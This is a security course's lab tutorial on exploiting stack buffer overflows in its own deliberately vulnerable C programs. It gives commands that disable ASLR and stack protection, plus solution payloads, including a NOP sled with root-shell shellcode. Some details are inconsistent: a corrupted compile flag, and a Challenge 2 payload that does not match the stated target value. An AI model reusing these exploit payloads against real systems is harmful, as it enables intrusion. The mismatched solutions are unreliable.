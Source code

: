 # Week 2 - Malware and Buffer Overflow
In this tutorial you'll work on exploiting a buffer overflow vulnerability. This attack can crash a legitimate process, give the attacker access to confidential data or even give the attacker a full control over a machine (see Challange3). 

## Setup
Disable ALSR on your machine using `echo 0 | tee /proc/sys/kernel/randomize_va_space`.

## Challenge 1
Your goal here is to modify a variable in the code even though the code doesn't contain any logic writing to this variable. To do that

* Analyze the code in `challenge1.c`

* Compile `challenge1.c` using `gcc challenge1.c -o challenge1 -m32 -fno-stack-protector -z execstack -g`

* Run the file with an input that will change the value of `do_not_modify` to something other than 0.

* Add a `printf` statements to your code that will print the pointer values for buffer and modified variables.

* Run the program several times and observe the pointer values.

* Recompile the program without the `-fno-stack-protector`. What changed? Is your attack still possible?

* Enable ALSR on your machine and run the program again (modify the command from the beginning of this task). What changed? How ALSR protects against buffer overflow attacks? 

Solution:
```
./challenge1 aaaaaaaaa
```

## Challenge 2

* Disable ALSR on your machine using `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

* Compile `challenge2.c` using `gcc challenge2.c -o challenge2 -m32 -fno-stack-protector -z exe<cstack -g`

* Run the file with an input that will change the value of modified to `0x0d0a0d0a`. 

Solution:
```
$./challenge2 `python2 -c 'print "A"*64 + "\x0b\x0d\x0b\x0d"'`
```

## Challenge 3
Your goal is to place a shell code in the buffer of an application and get access to the host machine (similarely to what we did during the lecture).
* Analyze the code of `challenge3.c`. 
* Compile it using: `gcc challenge3.c -o challenge3 -m32 -fno-stack-protector -z execstack -g`
* Make the application execute the shell code below:

```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d
\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Solution:
```
/challenge3 `python2 -c 'print "\x90"*359 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76
\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8
\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x30\xd4\xff\xff"'`
```
